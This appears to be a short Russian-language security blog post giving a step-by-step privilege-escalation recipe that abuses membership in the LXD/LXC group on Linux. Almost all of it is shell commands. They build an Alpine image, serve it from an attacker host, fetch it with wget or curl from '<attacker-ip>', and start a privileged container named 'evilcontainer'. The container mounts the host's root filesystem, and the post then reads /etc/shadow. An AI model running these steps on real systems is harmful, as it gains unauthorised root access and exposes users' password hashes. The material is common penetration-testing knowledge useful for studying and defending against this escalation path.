 ```yaml
---
type: "post"
title: "From LXC to etc"
date: 2022-06-02T18:16:29+03:00
draft: false
tags: ["security", "lxc"]
---
```



Использование чистого lxc в природе сейчас встретишь не часто, но в некоторых дистрибутивах он есть, например в Ubuntu 20.04. 
И раз у нас есть такая крутая штука, то странно ей не воспользоваться.  
Вообще это довольно интересный и своеобразный вектор атаки, и пишут про него не особо часто (ну да, ведь везде docker).  

## Собираем образ на своей машине
```shell
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sudo ./build-alpine -a i686
```

## Скачиваем файл
Полученный файл можно куда-то выгрузить, а можно раздать с веб-сервера, например так:
```shell
python3 -m http.server 8080
```

Забираем файл так:
```shell
wget http://<attacker-ip>:8080/alpine-v3.16-i686-20220603_1113.tar.gz
```

Или так:
```shell
curl http://<attacker-ip>:8080/alpine-v3.16-i686-20220603_1113.tar.gz --output alpine-v3.16-i686-20220603_1113.tar.gz
```

Как альтернативный вариант, можем использовать сразу образ из репозитория:
```shell
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

## Импортируем образ
```
lxc image import ./alpine*.tar.gz --alias evilimage
```

## Предварительно проверяем, используется ли lxc
```
ip a | grep lxd
lxc list
lxc image list
```

И если ничего нет, то запускаем начальную настройку:
```shell
lxd init
```

## Запускаем образ
```shell
lxc init evilimage evilcontainer -c security.privileged=true
```

## Монтируем /root в образ
```shell
lxc config device add evilcontainer victimdevice disk source=/ path=/mnt/root recursive=true
```

## Запускаем и радуемся результату
```shell
lxc start evilcontainer
lxc exec evilcontainer /bin/sh
cat /mnt/root/etc/shadow
```

### Reference
[lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)  
[Linux Privilege Escalation – Exploiting the LXC/LXD Groups](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)

